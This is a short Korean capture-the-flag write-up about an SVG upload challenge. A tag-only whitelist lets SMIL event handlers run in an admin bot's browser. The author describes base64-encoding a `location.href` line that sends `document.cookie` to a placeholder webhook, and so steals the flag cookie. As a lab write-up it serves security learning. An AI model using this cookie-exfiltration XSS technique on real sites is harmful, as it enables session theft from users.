


# 문제 설명

# 목표
문제를 통해 플래그 획득

# 코드 분석

`/upload` 경로는 POST 요청을 통해 파일 업로드를 처리한다.
`/upload` 가 `read_file` 함수를 호출하면 관리자 봇이 해당 SVG를 페이지에 렌더링(로드)한다

# 공격 표면 분석

`load_svg_from_string` 함수는 요소의 태그 이름(tagName)만을 화이트리스트와 비교할 뿐, 각 요소가 가질 수 있는 속성(attribute)이나 이벤트 핸들러에 대해서는 별도의 검증을 수행하지 않는다. 즉, 필터링의 단위가 "요소 종류"에 그치고 "요소의 동작 범위"까지 확장되지 않는다는 구조적 한계를 지닌다. 이러한 특성을 이용하면 allowed_elements에 포함된 요소만으로도 임의의 외부 요청을 발생시켜 관리자 봇의 쿠키를 탈취할 수 있다.

# 익스플로잇
일반적인 SVG XSS인 `image` 태그의 `onerror`를 먼저 시도했다.  
그러나 봇은 DOM에 `<svg>` 태그가 나타나는 즉시 종료하기 때문에,  
비동기로 발생하는 `onerror` 이벤트는 실행되기 전에 브라우저가 닫혀버렸다.

이에 따라 DOM 삽입 시점에 거의 동기적으로 실행되는 SMIL 이벤트를 사용했다.

JavaScript 코드가 Base64로 인코딩된 문자열 형태로 전달되며, atob()를 통해 디코딩된다. 디코딩된 문자열을 실행하는 구조를 사용했다.
atob() 내부에는 `location.href="https://웹훅주소?flag=".concat(document.cookie)`를 base64로 인코한 값을 넣어
파일을 업로드했다

웹훅으로 관리자 봇의 쿠키(Flag)가 오는 것을 볼 수 있다.
